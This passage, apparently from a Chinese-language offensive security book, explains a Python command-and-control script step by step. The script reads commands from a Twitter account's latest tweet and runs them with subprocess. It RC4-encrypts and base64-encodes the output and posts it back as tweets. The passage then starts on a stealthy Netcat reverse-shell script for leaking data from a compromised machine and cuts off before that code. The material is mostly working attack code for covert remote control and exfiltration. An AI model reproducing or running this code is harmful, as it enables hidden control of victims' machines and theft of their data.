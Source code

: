 我们调用已设置的帐户的用户时间线。这个应用程序必须对 Twitter 帐户具有读写权限很重要。然后我们取最近推文的最后一条文本。我们需要将其编码为 UTF-8，因为通常有一些字符，普通编码无法处理：

```py
user = t.statuses.user_timeline()
command = user[0]["text"].encode('utf-8')
```

然后我们取最后一条推文作为我们加密的密钥。我们将其编码为`hex`以避免出现空格匹配空格的情况：

```py
key = user[1]["text"].encode('hex')
enc = ARC4.new(key)
```

我们通过使用`subprocess`函数执行操作。我们使用预设的 XOR 加密加密输出，并将其编码为 base64：

```py
response = subprocess.check_output(command.split())
enres = enc.encrypt(response).encode("base64")
```

我们将加密和编码的响应分成 140 个字符的块，以适应 Twitter 的字符限制。对于每个块，我们创建一个 Twitter 状态：

```py
for i in xrange(0, len(enres), 140):
  t.statuses.update(status=enres[i:i+140])
```

因为每个步骤都需要两条推文，我在每个命令检查之间留了一个小时的间隔，但您可以很容易地根据自己的需要进行更改：

```py
time.sleep(3600)
```

对于解码，导入`RC4`库，将您的关键推文设置为密钥，并将重新组装的 base64 设置为响应：

```py
from Crypto.Cipher import ARC4
key = "".encode("hex")
response = ""
```

使用关键字设置一个新的`RC4`代码，从 base64 解码数据，并使用关键字解密它：

```py
enc = ARC4.new(key)
response = response.decode("base64")
print enc.decrypt(response)
```

# 创建一个简单的 Netcat shell

我们将创建以下脚本，利用原始套接字从网络中泄露数据。这个 shell 的一般思想是在受损的机器和您自己的机器之间创建一个连接，通过 Netcat（或其他程序）会话发送命令到这台机器。

这个 Python 脚本的美妙之处在于它的隐蔽性，因为它看起来就像一个完全合法的脚本。

## 如何做…

这是将通过 Netcat 建立连接并读取输入的脚本：
